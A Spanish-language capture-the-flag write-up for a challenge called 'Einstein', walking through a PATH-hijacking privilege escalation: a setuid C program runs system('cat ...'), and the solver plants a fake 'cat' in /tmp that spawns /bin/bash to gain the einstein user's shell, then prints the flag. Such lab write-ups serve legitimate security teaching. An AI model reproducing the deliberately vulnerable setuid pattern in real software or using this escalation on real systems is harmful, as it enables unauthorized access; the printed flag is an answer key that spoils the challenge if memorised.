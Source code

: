 # Einstein

## Enunciado del Reto
>~~~
>1. The laws of physics are the same for all observers in any inertial frame of reference relative to one another (principle of relativity).
>2. The speed of light in vacuum is the same for all observers, regardless of their relative motion or of the motion of the light source.
>~~~

## Archivos

- Ninguno

- - -

## Solución

Entramos en la máquina y hacemos `ls` para ver que con que ficheros vamos a trabajar.

>~~~
>user@einstein:~$ ls -l
>total 20
>-rwsr-sr-x 1 einstein einstein 16160 Oct 25 17:36 learn
>-rw-r--r-- 1 einstein einstein   679 Oct 25 17:35 learn.c
>~~~

Abriremos el fichero de código para ver su contenido.

```c
#include <stdio.h>
#include <unistd.h>

int main() {
    // Welcome message
    printf("Welcome to this physics course! All information on this course is not copied from the internet without fact check and is completely riginal.\n");
    printf("\n===================================\n\n");

    // Execute cat command
    setreuid(geteuid(), geteuid()); // Because system() runs sh that resets euid to uid if they don't match
                                    // Otherwise we could not read /home/einstein/theory.txt
    char command[30] = "cat /home/einstein/theory.txt";
    if (system(command) == -1) {
        perror("system");
        return 1;
    }

    return 0;
```

Viendo la manera en la que se ejecuta el comando (función `system()`) y la función para cambiar el UID del binario al UID de einstein, intuimos que debemos explotar la variable de entorno `PATH` para escalar privilegios y abrir un fichero que se encontrará en el directorio `/home/einstein`.

Primero, crearemos un fichero en el directorio `/tmp` que contenga el comando que queremos ejecutar, en este caso `/bin/bash`. El nombre del fichero será `cat`, ya que es el comando que ejecuta el programa de antes. Además daremos permisos de ejecución a este nuevo fichero.

>~~~
>user@einstein:~$ cd /tmp/
>user@einstein:/tmp$ echo "/bin/bash" > cat
>user@einstein:/tmp$ chmod +x cat
>~~~

Ahora tenemos que hacer que cuando la máquina ejecute el comando `cat`, se ejecute el que hemos creado y no el que se encuentra en `/usr/bin/`. Cambiaremos la variable de entorno `PATH` y añadiremos el directorio `/tmp` al principio.

>~~~
>user@einstein:/tmp$ which cat
>/usr/bin/cat
>user@einstein:/tmp$ export PATH=/tmp:$PATH
>user@einstein:/tmp$ which cat
>/tmp/cat
>~~~

Después, simplemente ejecutaremos el binario `learn` del principio y obtendremos una shell con el usuario einstein.

>~~~
>user@einstein:~$ ./learn
>Welcome to this physics course! All information on this course is not copied from the internet without fact check and is completely riginal.
>
>===================================
>
>bash: /home/user/.bashrc: Permission denied
>einstein@einstein:~$ whoami
>einstein
>~~~

Para finalizar, leeremos el fichero `/home/einstein/flag.txt` que contiene la flag. No podemos usar el comando `cat` directamente porque recordemos que antes lo hemos modificado.

>~~~
>einstein@einstein:/home/einstein$ /bin/cat /home/einstein/flag.txt
>Hero{th30ry_of_r3l4tiv3_p4th5}
>~~~

## Flag

```
Hero{th30ry_of_r3l4tiv3_p4th5}
```

